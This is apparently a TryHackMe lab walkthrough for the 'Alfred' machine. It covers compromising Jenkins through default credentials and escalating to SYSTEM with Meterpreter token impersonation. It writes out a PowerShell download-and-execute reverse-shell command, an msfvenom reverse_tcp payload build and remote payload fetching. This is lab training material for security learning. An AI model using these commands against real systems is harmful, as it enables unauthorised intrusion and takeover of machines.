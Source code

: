 ﻿---
title: 'Alfred - TryHackMe Walkthrough'
date: 2020-07-10 00:00:00
featured_image: '/images/posts/THMlogo.png'
excerpt: Exploit Jenkins to gain an initial shell, then escalate the privileges by exploiting Windows authentication tokens.
---

![](/images/posts/alfred-jenkins.png)

### Goal
Exploit Jenkins to gain an initial shell, then escalate the privileges by exploiting Windows authentication tokens.

### Reconnaissance
The default page of the web server on port 80 is showing a image of Bruce Wyne and a donations email. But nothing else.

With the help on nmap, lets see what ports are open and services are running on the victim machine.

```bash
    $ nmap -p- -A 10.10.86.199

    PORT     STATE SERVICE            VERSION
    80/tcp   open  http               Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Site doesn't have a title (text/html).
    3389/tcp open  ssl/ms-wbt-server?
    |_ssl-date: 2020-07-02T21:47:32+00:00; 0s from scanner time.
    8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Jetty(9.4.z-SNAPSHOT)
    |_http-title: Site doesn't have a title (text/html;charset=utf-8).
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- On port 80, we can see Microsoft IIS 7.5 web server is running.  
- 8080 - Another HTTP server on Jetty 9.4 and a robots.txt is there which can help. By visiting on port 8080, there is a Jenkins service running.  
- 3389 - Looks RDP port is open.  
- Operating System: Windows  

### Logging into Jenkins
Thought to brute force using different payloads, but while trying to capture the HTTP request, the *admin:admin* credentials worked.

### Getting a reverse shell
After looking around the tool, for executing the command on the underlying machine, found it under project --> configure --> Build.
As this is a Windows operating system, framed a powershell utility which can get executed and opens a reverse shell.
For this,
- Download the powershell code which opens a reverse shell from [Git.](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)  
- Start a simple webserver using `python3 -m http.server` in the same directory. So the victim will be able to download the powershell code file.
- Frame the command that needs to get executed on the operating system. In this case, I will listen for remote shell on 8001 port.

 ` powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.18.4:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.18.4 -Port 8001 `

- Open netcat in another terminal and listen on 8001 port. `nc -lnvp 8001`
- Navigate to Jenkins and goto, project configuration and paste the powershell command that was framed above under build. So our command will become part of build process.
- Build the project using "Build now" and the victim is connected to http server and downloaded the reverse shell code and then a reverse shell in the netcat server.
- The reverse shell is opened with user alfred\bruce and have below privileges enabled:

```bash
    PS C:\Users\bruce\Desktop> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                  Description                               State   
    =============================== ========================================= ========
    SeDebugPrivilege                Debug programs                            Enabled
    SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
    SeImpersonatePrivilege          Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege         Create global objects                     Enabled

```
- The flag is under  `C:\Users\bruce\Desktop\user.txt` as *79007a09481--------1321abd9ae2a0*.


### Getting a Meterpreter shell
For much convenience and to work on privilege escalation, lets get meterpreter shell.
- Create a payload file which opens a reverse shell and save it in the same place where the webserver is running, so the victim will be able to download.

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=8002 -f exe -o shell.exe`

- Create a reverse shell listener using Metasploit with exploit/multi/handler and having a PAYLOAD windows/meterpreter/reverse_tcp LHOST 10.2.18.4 LPORT 8002.

```bash
msf5 exploit(multi/handler) > run  
[*] Started reverse TCP handler on 10.2.18.4:8002
```

- Get this shell.exe downloaded to victim machine by executing the powershell command on the reverse shell that was already opened and start the process.

```
PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
PS C:\Users\bruce\Desktop> dir


Directory: C:\Users\bruce\Desktop

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---          7/2/2020   5:01 PM      73802 shell.exe                         
-a---        10/25/2019   3:22 PM         32 user.txt                          


PS C:\Users\bruce\Desktop> Start-Process "shell.exe"
```

- The metasploit now will open a meterpreter shell:

```

    meterpreter > sysinfo
    Computer        : ALFRED
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter >
```

- `load incognito` module in meterpreter.
- List all the tokens that are available for the user, using `list_tokens -g` and we can see the user has a delegation token of BUILTIN\Administrators.
- Lets impersonate as administrator using `impersonate_token "BUILTIN\Administrators"`.
- Verify, by using `getuid`  

```
     meterpreter > getuid
     Server username: NT AUTHORITY\SYSTEM
```
- Though we have privileged user, due to impersonating we will not be able to access complete system due to windows security.  To test this, goto C:\Windows\system32\config directory and will see only files which have full permissions.

```
    meterpreter > dir
    Listing: C:\Windows\system32\config
    ===================================

    Mode             Size  Type  Last modified              Name
    ----             ----  ----  -------------              ----
    40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  Journal
    40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  RegBack
    40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  TxR
    40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  systemprofile
```

- We need migrate our process (shell.exe) whose pid is 1440, to a more stable and equally privileged process by checking the processes that are running on the victim using ps.

```
  1440  2848  shell.exe             x86   0        alfred\bruce                  C:\Users\bruce\Desktop\shell.exe
```

```
 meterpreter > ps

668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe

meterpreter > migrate 668
[*] Migrating from 1440 to 668...
[*] Migration completed successfully.
meterpreter > ls -lrt
Listing: C:\Windows\system32\config
===================================

```

- Now we can see all the files under config including our flag root.txt, which has the value *dff0f748678--------25a45b8046b4a*.
